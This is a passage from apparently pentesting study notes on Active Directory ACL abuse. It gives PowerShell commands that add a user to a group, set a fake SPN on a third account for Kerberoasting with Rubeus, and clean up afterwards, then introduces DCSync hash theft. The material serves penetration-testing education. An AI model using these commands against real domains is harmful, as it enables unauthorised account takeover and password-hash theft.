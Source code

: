 > We can do this in a Linux host with a tool like **pth-net**, from [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit).
{: .prompt-tip}

Now authenticate in the user:
```console
PS C:\zeropio> $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
PS C:\zeropio> $Cred2 = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<TARGET USER>', $SecPassword)
```

Now we can add that user to other groups:
```console
PS C:\zeropio> Get-ADGroup -Identity "<GROUP>" -Properties * | Select -ExpandProperty Members
PS C:\zeropio> Add-DomainGroupMember -Identity '<GROUP>' -Members '<TARGET USER>' -Credential $Cred2 -Verbose
PS C:\zeropio> Get-DomainGroupMember -Identity "<GROUP>" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over other user. If we cannot change the password of the third user, we can try a Kerberoasting attack with the property **GenericAll**. Create a fake SPN:
```console
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

Now use Rubeus to perform the Kerberoasting:
```console
PS C:\zeropio> .\Rubeus.exe kerberoast /user:<THIRD TARGET> /nowrap
```

### Cleanup

If we want to cleanup this process we must:
1. Remove the fake SPN we created 
2. Remove the second user from the group we added him
3. Set the password for the second user back to its original value (if we know it) or have our client set it/alert the user

To remove the fake SPN:
```console
PS C:\zeropio> Set-DomainObject -Credential $Cred2 -Identity <THIRD USER> -Clear serviceprincipalname -Verbose
```

Next, we'll remove the user from the group:
```console
PS C:\zeropio> Remove-DomainGroupMember -Identity "<GROUP>" -Members '<USER>' -Credential $Cred2 -Verbose
```

## DCSync 

If we have access with a user with DCSync privileges we can steal AD password database, by the **Directory Replication Service Remote Protocol**. This allow us to mimic the DC and retrieve user NTLM password hashes. We need to request a DC to replicate passwords via the **DS-Replication-Get-Changes-All** extended right. Domain/Enterprise Admins and default domain administrators have this right by default. 
